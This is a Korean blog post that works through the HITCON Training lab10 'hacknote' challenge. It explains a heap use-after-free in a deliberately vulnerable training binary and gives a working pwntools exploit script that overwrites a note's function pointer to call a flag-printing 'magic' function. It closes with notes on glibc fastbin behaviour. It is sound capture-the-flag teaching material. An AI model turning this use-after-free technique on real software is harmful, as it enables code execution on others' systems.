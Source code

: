 ```yaml
---
layout: post
title: "[HITCON Training] lab10"
comments : true
category : War Game
---
```


# 문제
***

hacknote 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```

file 명령어 결과는 다음과 같다.
```
hacknote: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b7cd347eef976fbccc3014a5a14c5a739e514d09, not stripped
```

바이너리 코드

add_note 함수
```
for(i=0;i<=4;++i)
(
    if(!notelist[i])
        notelist[i]=malloc(8u);
    ...
    *notelist[i]=print_note_content;
    ...
    read(0,&buf,8u)
    size=atoi(&buf);
    v0=notelist[i];
    v0[1]=malloc(size);
    ...
    read(0,*((void**)notelist[i]+1),size)
    ...
    ++count;
    return *MK_FP(__GS__,20)^v5;
)
...
```

del_note 함수
```
...
read(0,&buf,4u);
v1=atoi(&buf);
...
if(notelist[v1)
(
    free(*((void**)notelist[v1]+1));
    free(notelist[v1])
    puts("Success")
)
return *MK_FP(__GS__,20)^v3;
```

print_note 함수
```
...
read(0,&buf,4u);
v1=atoi(&buf);
...
if(notelist[v1])
    (*(void(__cdecl**)(void *))notelist[v1])(notelist[v1]);
return *MK_FP(__GS__,20)^v3;    
```

del_note를 통해서 free을 한 heap 영역을 print_note를 통해서 사용할 수 있기 때문에 use after free 취약점이 존재한다.

또한 해당 바이너리에는 
```return system("cat /home/hacknote/flag")```를 호출하는 magic 함수가 존재한다.  

## exploit 방법
1. add_note 함수 호출을 통해서 16byte 공간을 할당받고 해당 주소를 notelist[0]에 저장한다. 그리고 read 함수의 인자로 16보다 더 큰 값을 넣어줘서 16byte 보다 더 큰 공간을 할당받는다. 
2. 1번과 동일한 행위를 반복해서 notelist[1]에 16바이트 공간의 주소를 저장한다.  
3. del_note 함수 호출을 통해서 0번 notelist를 free한다. 그 결과 16바이트 fastbin list에 notelist[0]에 저장된 주소의 영역이 들어간다.
4. 3번과 동일한 행위를 반복하면 fastbin list에 notelist[1]에 저장된 주소의 영역이 들어간다. 
5. add_note를 함수를 호출하면 fastbin은 LIFO 구조이기 때문에 notelist[3]에 notelist[1]에 저장된 주소가 할당된다. 그리고 read 함수의 인자로 8을 주면 (notelist[3]+1)에 notelist[0]에 저장된 주소가 할당된다.
그 다음 호출되는 read 함수를 통해서 *(notelist[0])에 magic 함수의 주소를 넣는다.
6. print_note 함수를 통해서 ```(*(void(__cdecl **)(void *))notelist[0])(notelist[0])```를 실행하면 magic 함수를 호출할 수 있다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def add_note(num,pay):
        p.recvuntil("choice :")
        p.send("1")
        p.recvuntil("Note size :")
        p.send(str(num))
        p.recvuntil("Content :")
        p.send(pay)

def del_note(num):
        p.recvuntil("choice :")
        p.send("2")
        p.recvuntil("Index :")
        p.send(str(num))
        p.recvuntil("Success\n")

def print_note(num):
        p.recvuntil("choice :")
        p.send("3")
        p.recvuntil("Index :")
        p.send(str(num))

file_path="/home/sungyun/HITCON-Training/LAB/lab10/hacknote"

p=process(file_path)

magic_system=0x08048986

add_note(20,"hi_3ffr3s")
add_note(20,"hi_3ffr3s")

del_note(0)
del_note(1)

add_note(8,p32(magic_system))

print_note(0)

print p.recvline()

```

# 알게 된 것
***
1. fastbin은 같은 크기의 chunk들이 single-linked list 구조로 연결되어 있고 LIFO 구조이다. 

또한 인접한 chunk와 병합되지 않는다. (fastbin이 아닌 다른 chunk들은 인접한 서로 다른 두 chunk가 free되면 병합된다. top chunk와 인접한 chunk도 병합됨)

gdb에서 global_max_fast의 값을 통해 fastbin의 크기를 확인할 수 있다.

2. prev_inuse이 비트는 앞에 위치한 chunk가 free되면 0으로 세팅된다. (fastbin은 prev_inuse 비트를 사용하지 않는다.)

3. free하면 fd/bk (fastbin은 fd만) 주소 값으로 data 영역을 덮어쓴다. 가리킬 곳이 없으면 NULL이 들어간다.

